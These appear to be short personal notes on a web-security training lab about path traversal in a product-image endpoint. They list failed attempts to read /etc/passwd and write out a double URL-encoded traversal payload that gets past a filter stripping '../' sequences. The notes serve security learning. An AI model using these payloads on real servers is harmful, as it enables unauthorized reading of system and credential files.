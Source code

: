 # Lab 04 : File path traversal, traversal sequences stripped with superfluous URL-decode

## Overview:
- Level : PRACTITIONER
- path traversal vulnerability in the display of product images
- End goal: retrieve the contents of the /etc/passwd file.

## Solution:
- ../../../etc/passwd doesn't work
- use absolute path
    /etc/passwd 
    doesn't work
- ....//....//....//etc//passwd doesn't work

- url encode ../../../etc/passwd
    %2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
    doesn't work

- double url encode ../../../etc/passwd
    %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
